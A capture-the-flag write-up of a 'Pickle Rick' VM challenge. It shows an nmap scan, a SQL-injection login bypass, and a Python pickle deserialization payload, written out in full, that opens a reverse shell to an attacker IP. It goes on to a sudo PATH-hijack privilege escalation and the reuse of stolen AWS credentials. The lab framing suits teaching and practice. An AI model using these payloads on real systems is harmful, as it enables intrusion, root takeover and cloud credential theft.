 ```yaml
---
description: Yes, the icon is a cucumber
---
```


# 🥒 Pickle Rick

## Description

> Rick has turned himself into a pickle, can you find him before its too late...
>
> Download: [https://drive.google.com/file/d/1ZULGK4p7cJQHNabmDHdtki-g1xNfHu0f/view?usp=share\_link](https://drive.google.com/file/d/1ZULGK4p7cJQHNabmDHdtki-g1xNfHu0f/view?usp=share\_link)
>
> Alternative Download Link: [https://drive.google.com/file/d/1ZTp8qBLRfjitet8nOshTiqIwWDwonCh1/view?usp=share\_link](https://drive.google.com/file/d/1ZTp8qBLRfjitet8nOshTiqIwWDwonCh1/view?usp=share\_link)
>
> 7z Password: \&y9PBYf8gZ^996s9

## TL;DR

* Scan victim machine with nmap to find http running on port 5000
* The website allows uploading of pickle files, upload a pickle RCE reverse shell payload
* Privesc from sudo /opt/clean\_pickle.sh, replacing PATH env to a dir containing a file named 'rm', which creates a shell as root
* Get aws creds from /root dir
* Login to aws using aws cli and list the files in the storage, flag is in the container.

## Solution

### Setup

Unzipping the 7zip file with the password given, we are returned with a `pickle-shop.ova` file which we can open as a virtual machine in VMWare.

After opening it, we start the virtual machine and we are prompted with a login screen. Since we don't know the password, we cannot login.

<figure><img src="../../../.gitbook/assets/image (5) (3).png" alt=""><figcaption><p>Login Screen</p></figcaption></figure>

Let's treat this as a hackthebox kind of challenge. We will open an attacker vm, configure both machines to be in the same network, then nmap the victim machine to see what ports are open.

To configure both vms to be in the same network in VMWare, we have to go to the **VM tab > Settings > Network Adapter**, then select **Custom > VMnet0**. Do the same for the attacker machine.

<figure><img src="../../../.gitbook/assets/image (30).png" alt=""><figcaption><p>Network Config</p></figcaption></figure>

Now the attacker and victim machines are in the same network, we can run `ip addr` on the attacker machine to check the network we are in.

<figure><img src="../../../.gitbook/assets/image (7) (4).png" alt=""><figcaption><p>ip address</p></figcaption></figure>

For me, my machine's ip address is `192.168.10.133` and it is in the `192.168.10.0.24` network.

To find the ip address of the victim machine, we can just do a ping sweep of the network by running `nmap -sP 192.168.10.1-255`. This command tells us which hosts are up.

<figure><img src="../../../.gitbook/assets/image (1) (1).png" alt=""><figcaption><p>pickle-shop ip addr</p></figcaption></figure>

In my case, the victim's machine ip address is `192.168.10.142`. We now scan for open ports and their services by running `nmap -sC -sV -T4 -p- 192.168.10.142`.

<details>

<summary>nmap result</summary>

```
tarting Nmap 7.92 ( https://nmap.org ) at 2023-04-17 11:26 EDT
Nmap scan report for pickle-shop (192.168.10.142)
Host is up (0.11s latency).
Not shown: 65534 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
5000/tcp open  upnp?
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/2.2.2 Python/3.10.6
|     Date: Mon, 17 Apr 2023 15:28:48 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 1461
|     Connection: close
|     <html>
|     <head>
|     <title>Login Page</title>
|     <style>
|     body {
|     font-family: Arial, sans-serif;
|     text-align: center;
|     font-size: 2em;
|     margin-top: 50px;
|     form {
|     display: inline-block;
|     margin-top: 50px;
|     padding: 20px;
|     border: 1px solid #ccc;
|     border-radius: 5px;
|     box-shadow: 2px 2px 5px #ccc;
|     input[type="text"],
|     input[type="password"] {
|     padding: 10px;
|     font-size: 1.2em;
|     width: 100%;
|     margin-bottom: 20px;
|     border: 1px solid #ccc;
|     border-radius: 5px;
|     input[type="submit"] {
|     padding: 10px 20px;
|     font-size: 1.2em;
|     background-color: lightblue;
|     color: white;
|   RTSPRequest: 
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN"
|     "http://www.w3.org/TR/html4/strict.dtd">
|     <html>
|     <head>
|     <meta http-equiv="Content-Type" content="text/html;charset=utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request version ('RTSP/1.0').</p>
|     <p>Error code explanation: HTTPStatus.BAD_REQUEST - Bad request syntax or unsupported method.</p>
|     </body>
|_    </html>
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port5000-TCP:V=7.92%I=7%D=4/17%Time=643D65B0%P=x86_64-pc-linux-gnu%r(Ge
SF:tRequest,664,"HTTP/1\.1\x20200\x20OK\r\nServer:\x20Werkzeug/2\.2\.2\x20
SF:Python/3\.10\.6\r\nDate:\x20Mon,\x2017\x20Apr\x202023\x2015:28:48\x20GM
SF:T\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x2
SF:01461\r\nConnection:\x20close\r\n\r\n<html>\n\n<head>\n\x20\x20<title>L
SF:ogin\x20Page</title>\n\x20\x20<style>\n\x20\x20\x20\x20body\x20{\n\x20\
SF:x20\x20\x20\x20\x20font-family:\x20Arial,\x20sans-serif;\n\x20\x20\x20\
SF:x20\x20\x20text-align:\x20center;\n\x20\x20\x20\x20}\n\n\x20\x20\x20\x2
SF:0h1\x20{\n\x20\x20\x20\x20\x20\x20font-size:\x202em;\n\x20\x20\x20\x20\
SF:x20\x20margin-top:\x2050px;\n\x20\x20\x20\x20}\n\n\x20\x20\x20\x20form\
SF:x20{\n\x20\x20\x20\x20\x20\x20display:\x20inline-block;\n\x20\x20\x20\x
SF:20\x20\x20margin-top:\x2050px;\n\x20\x20\x20\x20\x20\x20padding:\x2020p
SF:x;\n\x20\x20\x20\x20\x20\x20border:\x201px\x20solid\x20#ccc;\n\x20\x20\
SF:x20\x20\x20\x20border-radius:\x205px;\n\x20\x20\x20\x20\x20\x20box-shad
SF:ow:\x202px\x202px\x205px\x20#ccc;\n\x20\x20\x20\x20}\n\n\x20\x20\x20\x2
SF:0input\[type=\"text\"\],\n\x20\x20\x20\x20input\[type=\"password\"\]\x2
SF:0{\n\x20\x20\x20\x20\x20\x20padding:\x2010px;\n\x20\x20\x20\x20\x20\x20
SF:font-size:\x201\.2em;\n\x20\x20\x20\x20\x20\x20width:\x20100%;\n\x20\x2
SF:0\x20\x20\x20\x20margin-bottom:\x2020px;\n\x20\x20\x20\x20\x20\x20borde
SF:r:\x201px\x20solid\x20#ccc;\n\x20\x20\x20\x20\x20\x20border-radius:\x20
SF:5px;\n\x20\x20\x20\x20}\n\n\x20\x20\x20\x20input\[type=\"submit\"\]\x20
SF:{\n\x20\x20\x20\x20\x20\x20padding:\x2010px\x2020px;\n\x20\x20\x20\x20\
SF:x20\x20font-size:\x201\.2em;\n\x20\x20\x20\x20\x20\x20background-color:
SF:\x20lightblue;\n\x20\x20\x20\x20\x20\x20color:\x20white;\n\x20\x20\x20\
SF:x20\x20")%r(RTSPRequest,1F4,"<!DOCTYPE\x20HTML\x20PUBLIC\x20\"-//W3C//D
SF:TD\x20HTML\x204\.01//EN\"\n\x20\x20\x20\x20\x20\x20\x20\x20\"http://www
SF:\.w3\.org/TR/html4/strict\.dtd\">\n<html>\n\x20\x20\x20\x20<head>\n\x20
SF:\x20\x20\x20\x20\x20\x20\x20<meta\x20http-equiv=\"Content-Type\"\x20con
SF:tent=\"text/html;charset=utf-8\">\n\x20\x20\x20\x20\x20\x20\x20\x20<tit
SF:le>Error\x20response</title>\n\x20\x20\x20\x20</head>\n\x20\x20\x20\x20
SF:<body>\n\x20\x20\x20\x20\x20\x20\x20\x20<h1>Error\x20response</h1>\n\x2
SF:0\x20\x20\x20\x20\x20\x20\x20<p>Error\x20code:\x20400</p>\n\x20\x20\x20
SF:\x20\x20\x20\x20\x20<p>Message:\x20Bad\x20request\x20version\x20\('RTSP
SF:/1\.0'\)\.</p>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Error\x20code\x20exp
SF:lanation:\x20HTTPStatus\.BAD_REQUEST\x20-\x20Bad\x20request\x20syntax\x
SF:20or\x20unsupported\x20method\.</p>\n\x20\x20\x20\x20</body>\n</html>\n
SF:");
MAC Address: 00:0C:29:80:47:CE (VMware)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 196.93 seconds
```

</details>

The results show that http is being hosted on port `5000`. Let's visit it through a web browser.

<figure><img src="../../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

We find that it is a simple login page. Looking at the source code doesn't return any useful info, so let's perform the usual ritual of trying SQL Injection.

Inputting `"` as the username returns an error message 'why u break my website smh :crying emoji:!'.

We can try the generic payload `"or"1"="1`that returns `true` for logging in, but another error message is returned 'Hacker Detected :skull: x7, mai geh siao, try harder leh'. It seems that this challenge creator is a hard sadist and included a bunch of words in his list of nono words :man\_facepalming::man\_facepalming::man\_facepalming:.

After trying different payloads, the simplest payload that bypasses the login is `"or"` for the username and password.

Now we are logged in and we can upload a pickle :cucumber:.

### Pickle RCE

We know the generic pickle insecure deserialization to RCE, so it is most likely it in this case.

I always refer to this [article](https://davidhamann.de/2020/04/05/exploiting-python-pickle/) for python pickle RCE.

So we create our own python pickle serializer according to the article and create a payload that creates a reverse shell.

{% tabs %}
{% tab title="pickle.py" %}
```python
import base64
import codecs
import pickle

class RCE:
    def __reduce__(self):
        import os
        cmd = ("""python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.10.133",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'""")
        return os.system, (cmd,)

pickled = pickle.dumps(RCE())

with open('pickle','wb') as f: f.write(pickled)
```
{% endtab %}

{% tab title="Second Tab" %}

{% endtab %}
{% endtabs %}

Start a netcat listener, upload the pickle file, and we have a shell!

<figure><img src="../../../.gitbook/assets/image (25).png" alt=""><figcaption><p>shell</p></figcaption></figure>

### Privesc

The first thing I tried to run is `sudo -l` to check what commands I could run with sudo privilege.

<figure><img src="../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption><p>sudo -l</p></figcaption></figure>

This states that we can run `/opt/clean_pickle.sh` with root privileges without needing a password. Let's check what is in `clean_pickle.sh`.

<figure><img src="../../../.gitbook/assets/image (26).png" alt=""><figcaption><p>clean_pickle.sh</p></figcaption></figure>

The bash script uses runs `rm` without an absolute path. What this means is that instead of running `/usr/bin/rm -r ...`, it just runs `rm -r ...`.

This is vulnerable to **Command Forgery**. We abuse this by creating our own `rm` bash script under any directory, in this case we chose the `/tmp` directory. The `rm` file should contain:

```bash
#!/bin/bash
/bin/bash
```

This is to get a shell as root when root executes this `rm` bash script.

Run `chmod 777 /tmp/rm` to make it executable.

Now we can run `sudo PATH=/tmp:$PATH /opt/clean_pickle.sh` to run `clean_pickle.sh` as root, with the modified `PATH` environment variable to where our `rm` resides.

<figure><img src="../../../.gitbook/assets/image (9).png" alt=""><figcaption><p>privesc</p></figcaption></figure>

And now we have root!

### Pivoting to Cloud

Looking at `/root`, we see there is a `.aws` directory and a `credentials` file inside.

<figure><img src="../../../.gitbook/assets/image (24).png" alt=""><figcaption><p>aws creds</p></figcaption></figure>

We can sign in to aws cli using  this credential. I modified `~/.aws/credentials` to add the id and key (you will have to install aws cli first). You can also run `aws configure` and input the id and key appropriately.

<figure><img src="../../../.gitbook/assets/image (6) (2).png" alt=""><figcaption><p>local aws creds</p></figcaption></figure>

Now time to find where the flag actually is.

### Finding the flag

The most common enumeration method for aws cloud is to list the buckets the account have access to. We can run `aws s3api list-buckets` to list the buckets.

The aws key is now sadly revoked and invalid, so I can't show the last few steps.

<figure><img src="../../../.gitbook/assets/image (3) (1).png" alt=""><figcaption><p>failure</p></figcaption></figure>

The flag is in one of the buckets and you can just use aws cli to get it.

Unfortunately, there was no pickle rick at all :disappointed\_relieved:
